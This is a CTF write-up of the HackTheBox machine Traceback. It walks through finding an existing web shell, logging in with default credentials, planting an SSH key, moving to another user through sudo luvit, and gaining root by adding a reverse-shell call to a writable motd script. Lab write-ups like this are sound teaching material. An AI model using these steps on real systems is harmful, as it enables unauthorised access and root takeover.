




---
Category:
  - B2R
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - OSINT
  - insecure-file-permissions
  - lua
  - luvit
  - webshell
  - Linux
---
### Improved skills

- OSINT
- Luvit lateral movement
- motd privilege escalation

### Used tools

- nmap
- owasp zap
- pspy64
- netcat

---

## Introduction & Foothold

Like for every CTF we made, let’s start scanning the box with **nmap**

```bash
$ nmap 10.10.10.181 --top-ports 25 --open -sC -sV -oA nmap/openPorts.txt
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As we can see, there are only two services exposed: **SSH** (port 22) and the **Apache Web Server** (port 80).

Visiting the site, we discover that the machine **has been owned** and *there is a backdoor*


Looking to the source code of the page, a comment comes out.



Searching it on google, it reveals to be the description of a repo containing only web-shells. *We can suppose that one of those shells is the one used in this machine*.

Assuming this, lets **create a wordlist using the discovered shells’ name** and **fuzz** the web page in order to find the correct one.


**Bingo!** `smevk.php` is the web shell used on the box.



**Credentials** can be found **on the source code on github.** Easily guessable, the combination is `admin:admin`



Once inside, we can easily submit commands to the box. In order to get a more stable and comfortable shell, **I added my SSH key to the `authorized_keys` file**, obtaining an SSH access as **webadmin**.


## Lateral Movement to sysadmin

Listing all the files within the webadmin home directory, we discovered the presence of [Luvit](https://luvit.io/), a

>[!info]
> scripting platform just like node. This can be used to run lua scripts as standalone servers, clients, or other tools.


Furthermore, **webadmin has the permissions to run luvit as sysadmin** using **sudo**. It becames easy to perform action as sysadmin, like reading files


or getting a shell:


## Privilege Escalation

Analyzing the processes running on the machine I noticed the **presence of a process owned by the root modifiable by sysadmin**.

```bash
2020/03/15 15:45:01 CMD: UID=106  PID=28288  | sshd: [net]          
2020/03/15 15:45:01 CMD: UID=0    PID=28290  | run-parts --lsbsysinit /etc/update-motd.d 
2020/03/15 15:45:01 CMD: UID=0    PID=28289  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2020/03/15 15:45:01 CMD: UID=0    PID=28297  | cut -c -80 
2020/03/15 15:45:01 CMD: UID=0    PID=28296  | 
2020/03/15 15:45:01 CMD: UID=0    PID=28295  | 
2020/03/15 15:45:01 CMD: UID=0    PID=28293  | /bin/sh /etc/update-motd.d/50-motd-news 
2020/03/15 15:45:01 CMD: UID=0    PID=28298  | run-parts --lsbsysinit /etc/update-motd.d 
2020/03/15 15:45:01 CMD: UID=0    PID=28299  | /usr/bin/python3 -Es /usr/bin/lsb_release -cs 
2020/03/15 15:45:01 CMD: UID=0    PID=28301  | /usr/sbin/CRON -f 
2020/03/15 15:45:01 CMD: UID=0    PID=28300  | /usr/sbin/CRON -f 
2020/03/15 15:45:01 CMD: UID=0    PID=28305  | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/ 
2020/03/15 15:45:01 CMD: UID=0    PID=28304  | sleep 30 
2020/03/15 15:45:01 CMD: UID=0    PID=28303  | /bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2020/03/15 15:45:01 CMD: UID=0    PID=28302  | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2020/03/15 15:45:01 CMD: UID=0    PID=28306  | /usr/bin/python3 -Es /usr/bin/lsb_release -ds 
2020/03/15 15:45:01 CMD: UID=0    PID=28307  | /bin/sh /etc/update-motd.d/91-release-upgrade 
2020/03/15 15:45:01 CMD: UID=0    PID=28310  | cut -d  -f4 
2020/03/15 15:45:01 CMD: UID=0    PID=28309  | /usr/bin/python3 -Es /usr/bin/lsb_release -sd 
2020/03/15 15:45:01 CMD: UID=0    PID=28308  | /bin/sh /etc/update-motd.d/91-release-upgrade 
2020/03/15 15:45:02 CMD: UID=0    PID=28315  | sshd: sysadmin [priv]
2020/03/15 15:45:02 CMD: UID=1001 PID=28316  | -sh
```

`/etc/update-motd.d/50-motd-news` is called **every time a user logs into the box**, with **root privileges**. However, **this file can be edited from non-root users**. 

Abusing this issue, let’s use the reverse shell script used before in order to obtain a reverse shell as root at the next login.

```bash
sysadmin@traceback:~$ nano /etc/update-mot.d/50-motd-news

#!/bin/bash
/bin/bash /tmp/revShell.sh
...
```



# Trophy

>[!quote]
>Aim for the sky, but move slowly, enjoying every step along the way. It is all those little steps that make the journey complete.
>
>\- Chanda Kochhar

